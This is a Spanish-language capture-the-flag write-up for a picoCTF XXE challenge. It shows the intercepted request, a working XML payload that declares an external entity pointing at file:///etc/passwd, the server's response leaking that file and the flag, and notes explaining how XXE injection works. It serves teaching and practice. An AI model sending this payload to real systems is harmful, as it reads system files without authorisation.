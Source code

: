 ## Descripción
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

Additional details will be available after launching your challenge instance.
## Solución
para esta solución tuve que iniciar el un proxy con la aplicación BurpSuite y la extensión FoxyProxy para interceptar peticiones, ya que la pista decía "XML external entity Injection" la cual, es una vulnerabilidad de los sitios web en la que tu creas una entidad y la apuntas hacia algún archivo del proyecto aunque no esté en la página web como tal. Desde burpsuit, intercepté una petición POST la cual tenía la siguiente información:
```
POST /data HTTP/1.1
Host: saturn.picoctf.net:64596
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://saturn.picoctf.net:64596/
Content-Type: application/xml
Content-Length: 61
Origin: http://saturn.picoctf.net:64596
Connection: keep-alive
Priority: u=0

<?xml version="1.0" encoding="UTF-8"?><data><ID>1</ID></data>
```
la mandé al Repeater de BurpSuite para modificar esa petición creando una entidad xee que apunte al archivo etc/passwd de esta manera:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xee SYSTEM "file:///etc/passwd"> ]>
<data><ID>
&xee;
</ID></data>
```
la repuesta del servidor fue esta:
```
HTTP/1.1 200 OK
Server: Werkzeug/2.3.6 Python/3.8.10
Date: Mon, 29 Sep 2025 01:53:59 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1025
Connection: close

Invalid ID: 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_540f4f1e}
```
## Notas
### Partes de la Inyección XXE

1. **Declaración del `DOCTYPE`:** Esta es la primera parte del ataque. Se declara un `DOCTYPE` para decirle al analizador XML que el documento contendrá una definición de tipo de documento (DTD) personalizada. La vulnerabilidad se explota cuando el analizador está mal configurado y permite que esta declaración incluya una entidad externa.
    
2. **Declaración de la entidad externa:** Dentro del `DOCTYPE`, se declara una entidad (`ENTITY`) con un nombre (`xxe`) y se le asigna un valor de tipo `SYSTEM`. El valor que se le da es la ruta al archivo que quieres leer, como `file:///etc/passwd`.
    
3. **Referencia a la entidad:** La última parte es llamar a la entidad que declaraste (`&xxe;`) en algún lugar del cuerpo del documento XML. Cuando el analizador procesa esta referencia, la sustituye por el contenido del archivo al que apunta, y así es como se revela la información.
## Referencias
https://portswigger.net/web-security/xxe
